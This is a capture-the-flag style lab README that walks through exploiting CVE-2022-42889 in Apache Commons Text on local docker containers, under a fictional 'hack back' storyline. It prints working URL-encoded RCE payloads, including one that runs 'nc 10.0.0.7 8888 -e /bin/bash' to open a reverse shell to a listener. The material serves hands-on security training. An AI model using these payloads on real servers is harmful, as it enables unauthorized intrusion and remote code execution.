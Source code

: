 # LAB AUDITION

## PREREQUISITE
+ git
+ docker && docker compose

## SETUP THE ENVIRONMENT
+ `git clone `
+ `docker compose up`

### Configure the Kali Attack Box
+ `docker exec -it $(docker ps -aqf "name=attack-box") /bin/bash`
+ In the interactive shell, type `apt update && apt -y install kali-linux-headless`

## CHALLENGES
## Scenario
Globomantics is under cyber seige by the nefarious Dark Kittens Collective hacking conglomerate. As a member of the Globomantics security team, you've just been authorized corporate cover by the board to "hack back" in an attempt to take down these crafty cats. We've got a tip that the Dark Kittens Collective is running a web server at 10.0.0.3:8080, let's check it out!

### Enumeration
+ In the interactive attack box shell, type...
  + `curl -v '10.0.0.3:8080'`
  + `echo "VXNlIHNlYXJjaCBwYXJhbWV0ZXIgZm9yIE1GQQ==" | base64 -d`
  + `curl -XGET '10.0.0.3:8080/search?n=ghost'` (optional: repeat to see MFA code change)
+ We've found the Dark Kittens Collective Multi-Factor Authentication Generator (may come in handy later *future lab storyline enhancement*). This Apache webserver definitely uses scripting and some string replacement functionality. Cue research and we find there is a recently discovered vulnerability in Apache Commons Text that may come in handy if the Dark Kittens Collective hasn't patched yet! Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42889

### Verification
+ Since this is a takedown, we have no reason for stealth and want to let these Dark Kittens know we are after them so to verify the vulnerability we're going to drop a calling card on the webserver. Tip: Make sure to urlencode the script line so special characters are properly interpreted.
  + To leave a calling card in /tmp/pwned, type `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fpwned%27%29%7D'`
  + To verify our calling card is on the webserver, type `docker exec -it $(docker ps -aqf "name=web-server") ls /tmp` 
    + *In real life, the Dark Kittens Collective webserver wouldn't be running in a local docker container (unless you are a hacker cat!) so we wouldn't be able to run this command.*

### Access
+ Leaving calling cards is cool, but we need more to take down these cats. Let's use the same proof of concept to get a reverse shell on the webserver.
+ In the interactive attack box shell, setup a listener `nc -nlvp 8888`
+ To iniative the reverse shell, run `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2010.0.0.7%208888%20-e%20%2Fbin%2Fbash%27%29%7D'`
  + Verify access, type `id`
  + **Install the lazer pointer program and watch chaos of the Dark Kittens Collective as they destory each other from within.**
